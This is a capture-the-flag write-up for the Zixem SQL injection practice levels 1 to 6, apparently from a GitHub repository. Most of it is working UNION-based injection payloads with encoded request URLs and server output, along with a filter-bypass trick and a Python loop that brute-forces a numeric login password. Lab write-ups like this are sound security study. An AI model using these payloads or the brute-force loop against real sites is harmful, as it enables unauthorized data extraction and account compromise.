



# Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()** (Exception: **Level 6**).
- **Have Fun** (:

# Reference Table:
- [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
- [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
- [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
- [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-4)
- [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-5)
- [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-6)
- [Level 7](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-7)
- [Level 8](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-8)
- [Level 9](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-9)
- [Level 10](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-10)

===========================================================================================================  

## [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
Start:  
[https://zixem.altervista.org/SQLi/level1.php?id=1](https://zixem.altervista.org/SQLi/level1.php?id=1)  
> - **Item ID:** 1
> - **Price:** 20$

+ I guess the Query can be:  
`SELECT * FROM <db> WHERE id=1`  
+ We should add `UNION SELECT 1,2;--`  
***PAYLOAD***: `1 UNION SELECT 1,2;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns **Item ID:**
> - **Price:** $

+ So it doesn't have 2 columns, let's try again with more to see if the error still exist.  
***PAYLOAD***: `1 UNION SELECT 1,2,3;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

+ But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.  
***PAYLOAD***: `1 AND 1=2 UNION SELECT 1,2,3;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

Ok let's extract *version()* and *user()*:  
***PAYLOAD***: `1 AND 1=2 UNION SELECT version(),user(),3;--`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
Start:  
[https://zixem.altervista.org/SQLi/level2.php?showprofile=4](https://zixem.altervista.org/SQLi/level2.php?showprofile=4)  
> - **User-ID:** 4
> - **Username:** ZiX-M
> - **Age:** 17

+ Test with prev payload:  
***PAYLOAD***: `4 AND 1=2 UNION SELECT 1,2,3,4--`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> Nothing to show.

+ It shows nothing. That means it can be take string instead of integer, so we have to add `'` into our payload:  
***PAYLOAD***: `4 AND 1=2' UNION SELECT 1,2,3--`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1

+ OK, so we have problem with `apostrophe (')`  
***PAYLOAD***: `4 AND 1=2' UNION SELECT 1,2,3--'`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--%27`
> The used SELECT statements have a different number of columns

+ It is ok now, but we have select wrong number of columns:  
***PAYLOAD***: `4 AND 1=2' UNION SELECT 1,2,3,4--'`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3,4--%27`
> - **User-ID:** 1
> - **Username:** 2
> - **Age:** 3

+ It is Done. Let's grep the *version()* & *user()*:  
***PAYLOAD***: `4 AND 1=2' UNION SELECT version(),user(),3,4--'`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> - **User-ID:** 5.6.33-log
> - **Username:** zixem@localhost
> - **Age:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
Start:  
[https://zixem.altervista.org/SQLi/level3.php?item=3](https://zixem.altervista.org/SQLi/level3.php?item=3)  
> - **ItemID:** 3
> - **Item Name:** Laptop
> - **Seller:** Team Digi7al

+ Test with prev Payload:  
***PAYLOAD***: `3 AND 1=2' UNION SELECT version(),user(),3,4--'`  
`https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'uni select version(),user(),3,4--''' at line 1

+ The error message tells us that the statement is being interpreted as `"uni select version(),user(),3,4--''"`, which means that the `on` of union is being filtered out. To combat this, we can add another `on`, so that even after it is removed, the statement still reads union:  
***PAYLOAD***: `3 AND 1=2' UNIONON SELECT version(),user(),3,4--'`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNIONON%20SELECT%20version(),user(),3,4--%27`
> - **ItemID:** 5.6.33-log
> - **Item Name:** zixem@localhost
> - **Seller:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-4)
Start:  
[https://zixem.altervista.org/SQLi/level4.php?ebookid=7](https://zixem.altervista.org/SQLi/level4.php?ebookid=7)  
> - **eBook ID:**   7
> - **Name:**       Secrets of Web
> - **Writer:**     Team Digi7al
> - **Price:**      40$

+ Test with prev Payload:  
***PAYLOAD***: `7 AND 1=2' UNION SELECT version(),user(),3,4--'`  
`https://zixem.altervista.org/SQLi/level4.php?ebookid=7%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> The used SELECT statements have a different number of columns.

+ Let's add more column:  
***PAYLOAD***: `7 AND 1=2' UNION SELECT version(),user(),3,4,5--'`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level4.php?ebookid=7%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4,5--%27`
> - **eBook ID:**   5.6.33-log
> - **Name:**       3
> - **Writer:**     4
> - **Price:**      zixem@localhost$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-5)
Start:  
[http://www.zixem.altervista.org/SQLi/login_lvl5.php](http://www.zixem.altervista.org/SQLi/login_lvl5.php)  
  
View the Source code: [view-source:http://www.zixem.altervista.org/SQLi/login_lvl5.php](view-source:http://www.zixem.altervista.org/SQLi/login_lvl5.php)  
```
If you want a lead, enter this password.
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
       owh...it's hashed! maybe you could get some help from my md5 cracker...
~~~~~~~~~~~~~~~~~~~~~~~~here: /SQLi/md5cracker.php~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-->
```
+ Let's go to [http://www.zixem.altervista.org/SQLi/md5cracker.php](http://www.zixem.altervista.org/SQLi/md5cracker.php)  
> insert your hash with GET method.
> md5cracker.php?hash=**YourHashHere**

+ Let's try it with `d1fd6ef9af6cb677e09b1b0a68301e0c`:  
[www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c](www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c)  
> Try the password: *zixemhf*
> Return to the login page and get your next step.

  
+ Ok, here is the script on Python:

~~~
import requests

for i in range (0, 999999):
    req = requests.get("http://www.zixem.altervista.org/SQLi/login_do.php?pass=" + str(i))
    if "> - Wrong Pass" in req.text:
        print("> - Wrong Pass : %d" %i)
    else:
        print("Pass Found : %d\n" %i)
        break
~~~  
+ Pass found: 1337
> root@Blue3:.../Zixem# py sqli-level5.py  
> ...
> - Wrong Pass : 1334
> - Wrong Pass : 1335
> - Wrong Pass : 1336
> - Pass Found : 1337

##### Result: #####  
[http://www.zixem.altervista.org/SQLi/login_do.php?pass=1337](http://www.zixem.altervista.org/SQLi/login_do.php?pass=1337)
  

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-6)
Start:  
[http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10)  
> Hello im teaching hacking for money, want details?
>
> - Serial number of teacher:  10
> - Teacher: ........................ZiXeM
> - Age:..............17
> - Price per 1 leeson: .....................50
>
> Blind challenge
> Task: Get the details of the teacher that his serial\id is 11.
> The answer should look like that: http://i.imgur.com/AyZ7uYV.png
> And not like that: http://i.imgur.com/RBkHPIN.png
>
> I repeat: in this specific challenge - You're NOT supposed to pull the version\db name. THIS IS BLIND SQL INJECTION
> You're supposed to pull information out of a table just by guessing the table name & its columns
> (*note: using information_schema db is not allowed*)...

+ Test with prev Payload:  
***PAYLOAD***: `10 AND 1=2 UNION SELECT 1,2,3,4--`  
`http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> - Serial number of teacher:  1
> - Teacher: ........................2
> - Age:..............3
> - Price per 1 leeson: .....................4

+ Ok let's go guessing job:  
***PAYLOAD***: `10 AND 1=2 UNION SELECT 1,2,3,4 FROM teacher--`  
`http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%201,2,3,4%20FROM%20teacher--`
> Table 'my_zixem.teacher' doesn't exist

+ Typo?
***PAYLOAD***: `10 AND 1=2 UNION SELECT 1,2,3,4 FROM teachers--`  
`http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%201,2,3,4%20FROM%20teachers--`
> - Serial number of teacher:  1
> - Teacher: ........................2
> - Age:..............3
> - Price per 1 leeson: .....................4

+ As we expected. Now guessing until we can grab all value of id=10:  
***PAYLOAD***: `10 AND 1=2 UNION SELECT id,teachers,teacher_age,price FROM teachers WHERE id=10--`  
`http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%20id,teachers,teacher_age,price%20FROM%20teachers%20WHERE%20id=10--`
> Unknown column 'teachers' in 'field list'

***PAYLOAD***: `10 AND 1=2 UNION SELECT id,teacher,teacher_age,price FROM teachers WHERE id=10--`  
`http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%20id,teacher,teacher_age,price%20FROM%20teachers%20WHERE%20id=10--`
> - Serial number of teacher:  1
> - Teacher: ........................2
> - Age:..............3
> - Price per 1 leeson: .....................4

***PAYLOAD***: `10 AND 1=2 UNION SELECT id,teacher,teacher_age,price FROM teachers WHERE id=11--`  
##### Result: #####  
`http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%20id,teacher,teacher_age,price%20FROM%20teachers%20WHERE%20id=11--`
> - **Serial number of teacher:**  11
> - **Teacher:** ........................Nice One!
> - **Age:**..............You are pro blinder
> - **Price per 1 leeson:** .....................Congratz

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  
